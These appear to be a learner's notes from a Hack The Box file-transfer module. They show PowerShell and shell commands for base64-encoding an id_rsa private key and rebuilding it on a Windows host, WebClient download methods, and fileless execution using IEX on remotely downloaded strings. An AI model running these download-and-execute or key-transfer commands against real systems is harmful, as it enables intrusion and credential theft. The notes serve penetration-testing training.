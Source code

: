 # Download Operations

## PowerShell Base64 Encode & Decode

`XeroCyb3r@htb[/htb]**$** md5sum id_rsa`

`XeroCyb3r@htb[/htb]**$** cat id_rsa |base64 -w 0;echo`

`PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`

Finally, we can confirm if the file was transferred successfully using the [Get-FileHash](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-7.2) cmdlet, which does the same thing that `md5sum` does.

`PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

## **PowerShell Web Downloads**

| Method | Description |
| --- | --- |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0 | Returns the data from a resource as a https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0 | Returns the data from a resource without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0 | Downloads data from a resource and returns a Byte array. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0 | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0 | Downloads data from a resource to a local file. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0 | Downloads data from a resource to a local file without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0 | Downloads a String from a resource and returns a String. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0 | Downloads a String from a resource without blocking the calling thread. |

`PS C:\htb> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`

`PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`

PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

`PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')`

`IEX` also accepts pipeline input.

`PS C:\htb> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX`

From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.
